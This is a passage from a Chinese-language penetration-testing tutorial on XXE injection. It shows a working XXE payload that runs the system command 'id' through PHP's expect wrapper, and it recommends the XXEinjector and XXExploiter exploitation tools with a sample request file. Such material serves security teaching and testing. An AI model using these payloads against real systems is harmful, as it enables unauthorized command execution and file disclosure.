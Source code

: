 如果是 PHP 环境下并安装 except 扩展，就可以利用它执行系统命令了。这种情况现在已经比较少见了，更多还是要利用其他漏洞来实现命令或代码执行。

```java
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "except://id">
]>
<x>&xxe;</x>
```

### XXE 漏洞利用工具

#### 1.XXEinjector

推荐一款综合型的 XXE 漏洞利用工具[XXEinjector](https://github.com/enjoiz/XXEinjector)，用 Ruby 开发，运行前需要先安装 ruby。

```java
sudo apt install ruby
```

通过输入请求包数据，并指定攻击行为，比如列目录、读文件等。

```java
$ cat req.txt                                                                                    1 ↵
GET /mmpaymd/ordercallback HTTP/1.1
Host: 100.95.204.69:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,en;q=0.8
Cache-Control: max-age=259200
Connection: keep-alive
```

常用命令如下：  
![Drawing 3.png](https://s0.lgstatic.com/i/image2/M01/05/79/Cip5yGAABwiAda6kAAF5gVHcGUo024.png)  
图 4 XXEinjector 常用命令

不过，不能完全依赖于 XXEinjector，因为之前我在测试时，发现它也有利用不成功的情况，需要自己多测试验证下。

其他更多 XXE payload，可以参考["XML External Entity (XXE) Injection Payload List"](https://github.com/payloadbox/xxe-injection-payload-list)。

#### 2.XXExploiter

如果你记不住上面那些 XXE payload，还有个工具可以帮你生成，一款集 payload 生成与发包利用的 XXE 利用工具 [XXExploiter](https://github.com/luisfontes19/xxexploiter)，它可以启动服务提供远程 DTD 文件去实现利用。

![图片5.png](https://s0.lgstatic.com/i/image2/M01/06/D8/CgpVE2AGWfCAdbhhAAQe4lr3PMM251.png)  
图 5 xxeploiter 利用方法

就功能而言，个人觉得它比 XXEinjector 更优秀，生成 payload 的功能还可以用于辅助手工测试，结合业务场景自己做一些调整。
